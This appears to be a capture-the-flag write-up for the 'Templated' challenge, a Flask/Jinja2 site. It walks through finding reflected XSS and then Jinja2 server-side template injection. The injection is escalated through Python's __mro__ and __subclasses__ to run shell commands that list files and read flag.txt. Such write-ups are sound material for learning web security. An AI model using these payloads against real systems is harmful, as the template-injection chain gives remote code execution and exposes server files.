 # Templated

> Upon accessing the web instance, we will see this interface

```
Site still under construction
Proudly powered by Flask/Jinja2
```
The message already informs us that the page is built using Flask / Jinja2.

To test this further, I will introduce routes in the url.

I got a `404` error but notice what we entered as path in URL is getting rendered in the website. Here are a few `XSS` payloads.

```
<script>alert("hello")</script>
```
If you try this pyload, you will not get any results.

But the following pyload is executed :

```
<img src=! onerror="alert('hello')">
```

# Server Side Template Injection (SSTI)

As a result, we know that the web is vulnerable to `XSS` payloads, but this did not lead us to the flag.

Assuming that the challenge is titled `Templated` and that `Jinja2` is a web template engine for Python.

There might be a vulnerability related to `SSTI` (`Server Side Template Injection`).

Payload : `{{46+46}}`

Output  : it give `92` as output

Currently 2 vulnerabilities have been found, `SSTI` and `XSS` (`Reflected`)

Here is an article regarding SSTI problems with [Flask and Jinja](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

By using `__mro__ ` or `mro()` in Python, we can go back up the tree of inherited objects.

We can use the `MRO` function to display classes with the following payload

```
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```

The list shows all the files, and guess what we can see is `flag.txt`. Now we just need to replace `ls *` with `cat flag.txt`.

```
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```

We have finally obtained the flag. (^!^)
